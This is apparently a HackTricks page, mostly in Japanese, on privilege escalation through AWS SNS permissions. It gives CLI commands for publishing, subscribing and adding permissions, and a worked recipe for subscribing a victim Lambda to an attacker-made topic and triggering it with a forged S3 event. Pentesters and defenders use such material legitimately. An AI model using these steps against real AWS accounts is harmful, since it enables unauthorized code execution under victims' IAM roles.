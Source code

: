 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

For more information check:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

攻撃者はSNSトピックに悪意のある、または不要なメッセージを送信し、データの破損、意図しないアクションの発動、あるいはリソースの枯渇を引き起こす可能性があります。
```bash
aws sns publish --topic-arn <value> --message <value>
```
**潜在的な影響**: 脆弱性の悪用、データの破損、意図しない操作、またはリソースの枯渇。

### `sns:Subscribe`

攻撃者は SNS トピックを購読することで、メッセージへの不正アクセスを得たり、そのトピックに依存するアプリケーションの正常な動作を妨害したりする可能性があります。
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**潜在的な影響**: メッセージへの不正アクセス（機密情報）、影響を受けたトピックに依存するアプリケーションのサービス中断。

### `sns:AddPermission`

攻撃者は不正なユーザーやサービスにSNSトピックへのアクセスを付与し、さらに権限を取得する可能性があります。
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potential Impact**: トピックへの不正アクセス、メッセージの露出、または不正なユーザーやサービスによるトピックの操作。トピックに依存するアプリケーションの正常な動作の妨害。

### Invoke a Lambda by abusing wildcard SNS permission (no `SourceArn`)

Lambda 関数のリソースベースのポリシーが `sns.amazonaws.com` に対して `SourceArn` でソーストピックを制限せずに invoke を許可している場合、任意の SNS topic（別アカウントのものを含む）がサブスクライブして関数をトリガーできます。基本的な SNS 権限を持つ攻撃者は、攻撃者制御の入力で Lambda をその IAM ロール下で実行させることができます。

> [!TIP]
> TODO: これは本当にクロスアカウントで行えますか？

Preconditions
- 被害者の Lambda ポリシーが以下のようなステートメントを含み、`SourceArn` 条件がない:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
悪用手順（同一アカウントまたはクロスアカウント）
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**潜在的な影響**: victim Lambda はその IAM role で実行され、attacker-controlled input を処理します。これにより、権限に応じて関数が機密性の高い操作（例：S3 への書き込み、secrets へのアクセス、リソースの変更）を実行するよう悪用される可能性があります。


{{#include ../../../../banners/hacktricks-training.md}}
